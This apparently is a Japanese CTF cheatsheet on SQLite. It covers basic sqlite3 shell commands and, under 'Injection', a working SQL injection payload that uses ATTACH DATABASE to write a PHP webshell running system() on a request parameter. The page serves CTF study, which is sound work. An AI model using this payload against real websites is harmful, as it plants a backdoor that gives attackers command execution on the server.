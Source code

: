 ```yaml
---
layout: post
published : true
title: "SQLite"
permalink: /ctf/cheatsheets/common/sqlite
tags: CTF Common cheatsheet SQLite
---
```

## 基本
### 対話シェルで起動
```sh
$ sqlite3 database.db
```
### シェルに直接SQLの結果を返す
```sh
$ sqlite3 database.db 'select * from users;'
```
### テーブル一覧の表示
```sh
sqlite> .table
```

## Injection

### Webshell(PHP)
ターゲットが以下のとき、
```sql
INSERT INTO subscribers (ip_address, email) VALUES('$foo', '$bar')
```
以下のようにする。
```sql
xxx','yyy');ATTACH DATABASE '/www/lol.php' AS lol;CREATE TABLE lol.pwn (dataz text);INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']) ?>");--
```
